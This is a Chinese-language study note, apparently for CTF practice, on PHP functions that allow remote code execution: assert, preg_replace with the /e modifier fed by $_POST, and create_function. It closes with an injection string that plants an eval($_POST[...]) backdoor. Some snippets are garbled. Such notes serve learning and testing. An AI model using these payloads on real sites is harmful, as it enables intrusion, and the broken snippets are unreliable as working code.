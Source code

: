 **我们的所有的命令执行，后面都需要加一个分号才可以取执行我们的对应的代码**。

## 代码执行函数：

代码执行函数主要应用在我们的无字母，无数字 RCE 中，也就是我们不是直接输入一条指令，而是输入指令后等待我们的元素处理一遍后，我们再去执行处理后的结果的指令。

1. Assert 执行：
在我们的版本较低的情况下，我们可以采用我们的 `assert` 函数，来执行我们的对应的函数。例如：我们 `assert(phpinfo())`

2. preg_replace 执行：
```
preg_replace("/abcd/e",$_POST['hacker'],"abcdefg");
```

3. Create_function 函数
我们在下面的方法的时候, 我们如果给我们的变量 a 赋值为一个传统的 php 自带的函数，是不可能完成的，这个时候，我们就需要使用我们的 php 中的创建函数的功能，创造函数的语法如下所示：
```
$a=__GET['0']__;
$a('',$this->code);
```
![[Pasted image 20240422144321.png]]
```
<?php
$newfun = create_function('', 'phpinfo()');
eval($newfun());
?>
```

这个时候，如果让我们的 `$a` 是 `create_function` 函数，那么我们就可以实现我们的**任意**远程函数执行，我们 create_function 语法如下：
```
$f=create_function('$a,$b',$code);
//其中，我们的a和b是参数
```

其中我们的 code 表示我们希望执行的代码内容。

但是，我们这一种方法存在漏洞，我们可以让我们的 `$code` 是下面的内容
```php
"return (0);eval($_POST ['19268017'],echo 0)";
```

